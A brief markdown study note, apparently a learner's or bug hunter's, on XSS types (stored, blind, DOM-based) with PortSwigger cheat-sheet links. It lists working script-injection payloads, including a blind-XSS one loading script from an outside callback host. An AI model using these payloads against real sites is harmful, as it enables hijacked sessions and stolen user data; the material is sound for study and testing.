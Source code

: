 # looking at every single XSS attack

## Stored XSS

Payload is sent to the server then the payload is being called

## payload

```javascript
"> <script>alert(0)</script>
```

## Blind XSS

A type of stored xss

It pops up in a page you cant see, 
uses XSS hunter

```javascript
"><script src=https://insider.css.ht></script>
```

## DOM based XSS

```
?%27><script>alert(0)</script>

 ```

 ## Reflected
 

##Cheatsheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#waf-bypass-global-objects


https://portswigger.net/web-security/cross-site-scripting/dom-based


